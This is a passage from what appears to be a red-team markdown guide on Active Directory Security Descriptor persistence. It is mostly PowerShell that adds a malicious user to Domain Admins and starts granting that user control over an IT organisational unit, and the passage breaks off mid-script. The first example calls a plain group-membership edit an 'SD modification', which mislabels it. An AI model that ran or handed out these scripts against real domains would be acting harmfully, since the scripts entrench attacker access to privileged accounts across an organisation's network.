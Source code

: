 ## 🎭 SD Persistence & DSRM Admin Logon

### **Security Descriptor (SD) Persistence**

#### **What is SD Persistence?**
**Security Descriptor Persistence** involves modifying the security descriptors of Active Directory objects to maintain access even after initial compromise is detected and cleaned up. This technique embeds malicious access control entries (ACEs) into the object's security descriptor.

#### **SD Persistence Targets**
- **High-Value Groups**: Domain Admins, Enterprise Admins, Schema Admins
- **Critical OUs**: IT, Finance, Executive organizational units
- **Service Accounts**: Accounts with SPNs and high privileges
- **AdminSDHolder**: Template that affects all protected objects

### **SD Persistence Implementation**

#### **1. SD Persistence via Group Modification**
```powershell
# Objective: Add malicious user to high-value groups via SD modification
# Impact: Persistent access to privileged group membership

Write-Host "=== SD PERSISTENCE VIA GROUP MODIFICATION ===" -ForegroundColor Red

# Step 1: Identify target group and malicious user
$targetGroup = "Domain Admins"
$maliciousUser = "evil_user"
$maliciousSID = (Get-DomainUser -Identity $maliciousUser).objectsid

# Step 2: Check current group membership
$currentMembers = Get-DomainGroupMember -Identity $targetGroup -Recurse
$isAlreadyMember = $currentMembers | Where-Object {$_.samaccountname -eq $maliciousUser}

if($isAlreadyMember) {
    Write-Host "User is already member of $targetGroup" -ForegroundColor Yellow
} else {
    Write-Host "Adding malicious user to $targetGroup via SD modification" -ForegroundColor Green
    
    # Step 3: Add user to group via SD modification
    $group = Get-DomainGroup -Identity $targetGroup
    $group.member += $maliciousUser
    Set-DomainObject -Identity $group.distinguishedname -Set @{member=$group.member}
    
    Write-Host "Successfully added $maliciousUser to $targetGroup" -ForegroundColor Green
}
```

#### **2. SD Persistence via OU Delegation**
```powershell
# Objective: Grant malicious user control over entire OU via SD modification
# Impact: Control over all objects within the OU

Write-Host "=== SD PERSISTENCE VIA OU DELEGATION ===" -ForegroundColor Red

# Step 1: Identify target OU and malicious user
$targetOU = "OU=IT,DC=corp,DC=local"
$maliciousUser = "evil_user"
$maliciousSID = (Get-DomainUser -Identity $maliciousUser).objectsid

# Step 2: Check current OU permissions
$ouACLs = Get-DomainObjectAcl -Identity $targetOU -ResolveGUIDs
$currentPermissions = $ouACLs | Where-Object {$_.IdentityReference -like "*\$maliciousUser"}

```
